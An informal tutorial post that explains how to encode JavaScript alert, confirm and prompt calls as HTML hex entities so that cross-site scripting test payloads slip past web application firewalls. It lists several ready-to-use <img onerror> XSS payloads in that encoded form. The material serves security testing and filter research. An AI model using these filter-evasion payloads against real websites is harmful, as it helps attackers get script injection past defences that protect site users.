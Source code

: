 # Intro
## What is Obfuscation
Obfuscation is the practice of intentionally making code or data more difficult to understand or read. thats it

# Whats the Point of obfuscating alert event
simply to bypass alert blocking filtration.
First we know what is alert to get to know what we are dealing with
In web development, `alert` is a function in JavaScript that is used to display a dialog box with a specified message and an OK button.
In your web application, let's say you have a login feature. After a user successfully signs in, you might want to provide a welcoming message to greet them. One simple way to achieve this is by using the `alert` function in JavaScript. For example:

```javascript
// Assuming the user successfully signed in
var username = "user123"; // Replace with the actual username
var welcomeMessage = "You have successfully signed in, welcome " + username + "!";
alert(welcomeMessage);
```
In this scenario, after a successful sign-in, the alert function is used to display a personalized welcome message, incorporating the user's username. The message might say something like "You have successfully signed in, welcome user123!".

Sorry for the long example (: but lets dig deep 

# Obfuscation 
using some sources i've found some interesting things like this 
```html
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```
Have you ever seen something like this before? Probably yes, but it becomes incredibly helpful when the alert function is blocked by a WAF or filtration mechs.

so i will provide some script as example if you want to use them, it will be prompt and alert and confirm functions.

# here
```
<img src=x onerror=&#x63;&#x6F;&#x6E;&#x66;&#x69;&#x72;&#x6D;('XSS')>
```
for confirm
```
<img src=x onerror=&#x70;&#x72;&#x6F;&#x6D;&#x70;&#x74;('XSS')>
```
for prompt
```
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;('XSS')>
```
and this is for alert


## Thanks for reading 
why did i write it? because i was bored at 4 AM
